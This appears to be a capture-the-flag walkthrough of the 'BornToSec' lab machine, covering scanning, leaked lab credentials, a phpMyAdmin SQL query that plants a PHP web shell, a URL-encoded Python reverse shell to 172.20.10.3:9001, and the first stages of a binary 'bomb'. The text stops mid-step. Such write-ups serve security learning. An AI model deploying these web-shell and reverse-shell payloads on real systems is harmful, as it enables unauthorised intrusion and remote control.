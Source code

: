 We have no info about the machine we can begin finding the IP of the machine and some open ports

nmap -sn 172.20.10.0/24
Nmap scan report for 172.20.10.2
Host is up (0.00025s latency).

We will make an agressive test on the IP to check open ports and some exploit opportunity

21/tcp  open  ftp        vsftpd 2.0.8 or later
|_ftp-anon: got code 500 "OOPS: vsftpd: refusing to run with writable root inside chroot()".
22/tcp  open  ssh        OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 07:bf:02:20:f0:8a:c8:48:1e:fc:41:ae:a4:46:fa:25 (DSA)
|   2048 26:dd:80:a3:df:c4:4b:53:1e:53:42:46:ef:6e:30:b2 (RSA)
|_  256 cf:c3:8c:31:d7:47:7c:84:e2:d2:16:31:b2:8e:63:a7 (ECDSA)
80/tcp  open  http       Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Hack me if you can
143/tcp open  imap       Dovecot imapd
|_ssl-date: 2024-08-23T12:41:41+00:00; 0s from scanner time.
|_imap-capabilities: ENABLE Pre-login LOGIN-REFERRALS ID more post-login have listed IMAP4rev1 LITERAL+ SASL-IR capabilities STARTTLS LOGINDISABLEDA0001 OK IDLE
443/tcp open  ssl/http   Apache httpd 2.2.22
|_ssl-date: 2024-08-23T12:41:41+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=BornToSec
| Not valid before: 2015-10-08T00:19:46
|_Not valid after:  2025-10-05T00:19:46
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: 404 Not Found
993/tcp open  ssl/imaps?
|_ssl-date: 2024-08-23T12:41:41+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2015-10-08T20:57:30
|_Not valid after:  2025-10-07T20:57:30
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

We can see a lot of interesting services running on the machine first of all a website
When we try to reach the page we have "Not found" first reflex we have to find the right route for this I will use dirbub enumerate the routes
We have some interesting results we can see that we have a forum, a squirrelmail service and a phpmyadmin

With wappalyzer extension we can see that squirrel mail version is 1.4.22

We have a lot of users
admin
lmezard
qudevide
thor
wandre
zaz

we found a password for lmezard on a post : !q\]Ej?*5K5cy*AJ
With this password we can connect on forum.

we found it's mail laurie@borntosec.net we can now connect to squirrelmail

In squirrelmail we have a db root password root/Fg-'kKXBj87E:aJ$

This access gives us something interesting squirrel 1.4.22 is vulnerable to a remote code execution it means that we can have a shell or we can inject a shell in
phpmyadmin

We must find a file where we can upload our shell here it is : templates_c found on the documentation.
https://github.com/My-Little-Forum/mylittleforum/wiki/Installation

I will choose the second option :
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/forum/templates_c/backdoor.php"

you have to url encode the reverse shell and put it in the url ip/forum/templates_c/backdoor.php?cmd=exploit
python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22172.20.10.3%22%2C9001%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22sh%22%29%27%0A%0A

in /home/LOOKATME we have lmezard password : G!@M6f4Eatau{sF"

we have a file in lmezard home named fun if we make strings fun we can see with some greps that the password is : getme1() + getme2() + ... + getme12() functions

	printf("%c",getme1());
	printf("%c",getme2());
	printf("%c",getme3());
	printf("%c",getme4());
	printf("%c",getme5());
	printf("%c",getme6());
	printf("%c",getme7());
	printf("%c",getme8());
	printf("%c",getme9());
	printf("%c",getme10());
	printf("%c",getme11());
	printf("%c",getme12());
	printf("\n");
	printf("Now SHA-256 it and submit");

I made a python script to parse files .pcap but only ascii text
The format of files is /file followed by number and then the content I put it in C files and then compile

Iheartpwnage in SHA256 = 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

Now we have bomb binary decompiling it we can try to defuse :

First input : Public speaking is very easy.

Each subsequent number must follow the pattern defined in the loop:
    v4[i]=v4[i-1]×(i+1)
    v4[0] = 1
	v4[1]= v4[0]× 2 = 2
    v4[2]= v4[1]× 3 = 2 × 3 = 6
    v4[3]= v4[2]× 4 = 6 × 4 = 24
    v4[4]= v4[3]× 5 = 24 × 5 = 120
    v4[5]= v4[4]× 6 = 120 × 6 = 720

Second input : 1 2 6 24 120 720

Third input : 


